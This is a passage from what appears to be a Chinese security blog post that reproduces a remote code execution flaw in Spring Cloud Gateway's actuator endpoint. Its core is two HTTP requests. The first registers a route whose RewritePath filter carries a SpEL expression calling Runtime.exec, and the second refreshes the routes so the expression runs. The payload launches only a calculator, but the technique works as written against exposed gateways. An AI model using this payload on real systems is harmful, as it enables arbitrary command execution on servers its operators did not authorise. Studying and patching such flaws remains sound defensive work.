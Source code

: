除此之外，这些都是可以的  
```
AddRequestHeader
MapRequestHeader
AddResponseHeader
SetRequestHeader
...
```  
  
  
# 漏洞复现  
  
  
```
POST /actuator/gateway/routes/testing HTTP/1.1
Host: 127.0.0.1:8080
Content-Type:application/json
Content-Length: 187


{"id":"testing","filters":[
    {
        "name":"RewritePath",
        "args":{
                "test":"#{T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")}"
    }
    }
]
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabERt5S8rnvNA7XVlQe11YKhNoVdvymNeKJ5jibmT6VQx9OadHUibicmc5bw/640?wx_fmt=jpeg "")  
```
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:8080
Content-Type:application/json
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpqFeicvxYGiaGgRt9ZjYicBiabEU3czpZe9pIkhDxibA35ACcuEeiavQiath99cjYUrcLt5B0HhK0P2ibkrlw/640?wx_fmt=jpeg "")  
  
  
  
  
**往期推荐**  
  
  
  
[原创 | 从KCON2022议题来看fastjson新版本RCE](http://mp.weixin.qq.com/s?__biz=MzI4Mzc0MTI0Mw==&mid=2247496822&idx=1&sn=44e28dc4b56de946992e13a4c0274fad&chksm=eb84a922dcf320345e8faeca3a34139de8514ce246918a52cff6c2e567cc4ef24f0d1bb3d6ee&scene=21#wechat_redirect)  
  
  
[原创 | 网鼎杯ezjava利用分析](http://mp.weixin.qq.com/s?__biz=MzI4Mzc0MTI0Mw==&mid=2247496817&idx=1&sn=6344acf0dcba7da936e7b02c213abb87&chksm=eb84a925dcf3203341092b9395f31bba08cb4d66c3fe05a47b604f172f896c8473c332cc687e&scene=21#wechat_redirect)  
  
  
[原创 |VMWare Workspace ONE Access Auth Bypass](http://mp.weixin.qq.com/s?__biz=MzI4Mzc0MTI0Mw==&mid=2247496816&idx=1&sn=c479d1f1b685e3237965eeedeff66778&chksm=eb84a924dcf320322db5372454a0122cb388f24807991522fee537b883bc342f61856e2168bf&scene=21#wechat_redirect)  
  
  
  
  
